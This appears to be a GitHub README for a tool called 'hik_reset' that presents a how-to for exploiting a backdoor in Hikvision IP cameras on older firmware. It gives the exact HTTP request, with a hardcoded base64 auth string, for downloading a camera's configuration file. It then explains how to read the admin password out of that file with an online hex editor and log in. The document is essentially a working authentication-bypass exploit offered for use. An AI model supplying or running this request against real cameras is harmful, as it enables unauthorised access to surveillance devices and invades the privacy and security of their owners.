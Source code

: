 # hik_reset
Hikvision backdoor IP camera

Requirements: Ubuntu 18, php 7, Apache, OpenJDK 8

<p><b>You can view the password from the camera without even resetting its settings
<p>List of requirements</b>

<p>1. The firmware version on the camera must be 5.4.4 or lower. Use SADP Tool to check
<p>2. Your PC or laptop must be on the same local network as the camera
<h2>Instructions</h2>

<p>1. Download and install the SADP Tool program on your PC or laptop
<br><a href="https://www.hikvision.com/en/support/tools/destop-tools/sadp-for-windows/#download-agreement" target="_blank" ><b>Download link</b></a>

<p>2. Go to the following IP address in your browser
<br>http://<i><b>camera_ip</i></b>/System/configurationFile?auth=YWRtaW46MTEK
<br>Where, camera_ip - IP address of the camera. You can find out IP using the <a href="https://www.hikvision.com/en/support/tools/destop-tools/sadp-for-windows/#download-agreement" target="_blank" ><b>SADP program</b></a>



<p>3. The file that you downloaded from the server (the file will have the name 6bf2bc3e2e31b280d83051dfa7444e22plaintextOutput, the name changes every time) should be uploaded to the site with the online HEX editor
<br><a href="https://hexed.it/" target="_blank" ><b>https://hexed.it</b></a>
<p>4.Use the camera web interface and Internet Explorer to enter the camera

<p><iframe width="560" height="315" src="https://www.youtube.com/embed/4PJXuYcMjMY" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

<b><center>An example of the script
http://hik.cctv-world.space/en.html
